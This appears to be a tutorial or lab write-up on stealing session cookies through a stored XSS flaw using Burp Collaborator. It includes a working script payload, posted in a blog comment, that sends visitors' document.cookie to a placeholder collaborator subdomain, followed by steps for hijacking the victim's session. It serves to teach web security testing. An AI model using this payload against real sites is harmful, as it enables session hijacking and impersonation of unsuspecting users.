




2. Steal Cookies (with Burp Collaborator)
We can exploit XSS vulnerabilities to send the victim's cookies to our own domain(or Burp Collaborator), then manually inject the cookies into your browser and impersonate the victim.
Limitations of this exploit
• The victim might not be logged in.
• Many applications hide their cookies from JavaScript using the
HttpOnly flag.◇ https://owasp.org/www-community/HttpOnly
◇ chapter about Cookies
• Sessions might be locked to additional factors like the user's IP address.
• The session might time out before you're able to hijack it.
1.Burp Professional → Burp → Burp Collaborator client

2. "Copy to clipboard", this will generate a Burp Collaborator subdomain that we can monitor

2.
Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated
.This script will make anyone who views the comment issue a POST request to burpcollaborator.net containing their cookie
<script>
fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

3. Go back to the Burp Collaborator client window now we need only to wait that a user connect to the webpage so we can steal his cookie!
When we will see an HTTP interaction mans that a user has requested the webpage.

4. Take a note of the value of the victim's session cookie
Reload a page of the website, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator.
